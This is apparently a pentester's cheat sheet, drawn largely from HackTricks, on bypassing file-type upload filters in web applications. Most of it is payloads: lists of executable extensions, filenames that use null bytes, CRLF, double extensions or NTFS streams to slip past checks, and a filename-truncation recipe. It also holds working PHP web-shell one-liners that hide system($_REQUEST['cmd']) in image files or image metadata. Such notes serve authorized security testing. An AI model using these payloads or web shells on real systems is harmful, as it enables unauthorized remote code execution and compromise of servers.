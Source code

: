 Ways to bypass file type upload filtering


# Guides

1. [File Upload | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)
2. [File upload bypass | Hacker's Grimoire](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

## File Upload General Methodology

Other useful extensions:

- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_
- **Working in PHPv8**: _.php_, _.php4_, _.php5_, _.phtml_, _.module_, _.inc_, _.hphp_, _.ctp_
- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
- **Flash**: _.swf_
- **Perl**: _.pl, .cgi_
- **Erlang Yaws Web Server**: _.yaws_

### Bypass file extensions checks

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._
    
2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_

	- _file.png.php_
	- _file.png.Php5_
        
    
3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)
    
    - _file.php%20_
        
    - _file.php%0a_
        
    - _file.php%00_
        
    - _file.php%0d%0a_
        
    - _file.php/_
        
    - _file.php.\_
        
    - _file._
        
    - _file.php...._
        
    - _file.pHp5...._
        
    
4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._
    
    - _file.png.php_
        
    - _file.png.pHp5_
        
    - _file.php#.png_
        
    - _file.php%00.png_
        
    - _file.php\x00.png_
        
    - _file.php%0a.png_
        
    - _file.php%0d%0a.png_
        
    - _file.phpJunk123png_
        
    
5. Add **another layer of extensions** to the previous check:
    
    - _file.png.jpg.php_
        
    - _file.php%00.png%00.jpg_
        
    
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):
    
    - _ex: file.php.png_
        
    
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php, see [HTB: Falafel | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#code-execution---webshell)
    
    Copy
    
    ```
    # Linux maximum 255 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
    # Upload the file and check response how many characters it alllows. Let's say 236
    python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    # Make the payload
    AAA<--SNIP 232 A-->AAA.php.png
    ```
    

### Bypass Content-Type, Magic Number, Compression & Resizing

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
    
    1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg` `\` or you could also **introduce the payload directly** in an image: `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
    
- If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
        
    
- The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
    
- Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)
    

### Other Tricks to check

- Find a vulnerability to **rename** the file already uploaded (to change the extension), see [File upload bypass | Hacker's Grimoire](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize)
    
- Find a **Local File Inclusion** vulnerability to execute the backdoor.
    
- **Possible Information disclosure**:
    
    1. Upload **several times** (and at the **same time**) the **same file** with the **same name**
        
    2. Upload a file with the **name** of a **file** or **folder** that **already exists**
        
    3. Uploading a file with **“.”, “..”, or “…” as its name**. For instance, in Apache in **Windows**, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
        
    4. Upload a file that may not be deleted easily such as **“…:.jpg”** in **NTFS**. (Windows)
        
    5. Upload a file in **Windows** with **invalid characters** such as `|<>*?”` in its name. (Windows)
        
    6. Upload a file in **Windows** using **reserved** (**forbidden**) **names** such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
        
    
- Try also to **upload an executable** (.exe) or an **.html** (less suspicious) that **will execute code** when accidentally opened by victim.
    

### Special extension tricks

If you are trying to upload files to a **PHP server**, [take a look at the **.htaccess** trick to execute code](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess). If you are trying to upload files to an **ASP server**, [take a look at the **.config** trick to execute code](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-config-files).

The `.phar` files are like the `.jar` for java, but for php, and can be **used like a php file** (executing it with php, or including it inside a script...)

The `.inc` extension is sometimes used for php files that are only used to **import files**, so, at some point, someone could have allow **this extension to be executed**.
